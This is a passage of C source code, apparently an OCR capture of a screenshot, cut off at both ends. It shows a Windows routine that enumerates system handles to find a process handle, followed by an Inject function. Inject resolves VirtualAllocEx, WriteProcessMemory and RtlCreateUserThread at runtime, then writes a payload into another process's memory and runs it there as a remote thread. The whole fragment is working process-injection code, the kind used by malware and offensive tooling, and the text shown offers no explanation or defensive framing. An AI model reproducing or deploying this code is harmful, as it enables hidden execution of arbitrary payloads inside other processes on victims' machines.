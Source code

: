 ```c
            free(objectTypeInfo);
            continue;
        }

		// get object name information
        objectNameInfo = malloc(0x1000);
        if (pNtQueryObject( (HANDLE) handle.HandleValue,
						ObjectNameInformation,
						objectNameInfo,
						0x1000,
						&returnLength ) != STATUS_SUCCESS) {
            
			// adjust the size of a returned object and query again
			objectNameInfo = realloc(objectNameInfo, returnLength);
            if (pNtQueryObject( (HANDLE) handle.HandleValue,
							ObjectNameInformation,
							objectNameInfo,
							returnLength,
							NULL ) != STATUS_SUCCESS) {
                free(objectTypeInfo);
                free(objectNameInfo);
                continue;
            }
        }

        // check if we've got a process object
        objectName = *(PUNICODE_STRING) objectNameInfo;
        UNICODE_STRING pProcess;

        pRtlInitUnicodeString(&pProcess, L"Process");
        if (pRtlEqualUnicodeString(&objectTypeInfo->TypeName, &pProcess, TRUE)) {
            printf("[+] Found process handle (%x)\n", handle.HandleValue);
            hProc = (HANDLE) handle.HandleValue;
			free(objectTypeInfo);
			free(objectNameInfo);
			break;
        }
        else
            continue;
        
        free(objectTypeInfo);
        free(objectNameInfo);
    }
	
	return hProc;
} 

int Inject(HANDLE hProc, unsigned char * payload, unsigned int payload_len) {
	
	LPVOID pRemoteCode = NULL;
    HANDLE hThread = NULL;
	BOOL bStatus = FALSE;

	pVirtualAllocEx = GetProcAddress(GetModuleHandle("kernel32.dll"), "VirtualAllocEx");
	pWriteProcessMemory = GetProcAddress(GetModuleHandle("kernel32.dll"), "WriteProcessMemory");
	pRtlCreateUserThread = GetProcAddress(GetModuleHandle("ntdll.dll"), "RtlCreateUserThread");
	
	pRemoteCode = pVirtualAllocEx(hProc, NULL, payload_len, MEM_COMMIT, PAGE_EXECUTE_READ);
	pWriteProcessMemory(hProc, pRemoteCode, (PVOID)payload, (SIZE_T)payload_len, (SIZE_T *)NULL);
	
    bStatus = (BOOL) pRtlCreateUserThread(hProc, NULL, 0, 0, 0, 0, pRemoteCode, NULL, &hThread, NULL);
	if (bStatus != FALSE) {
```
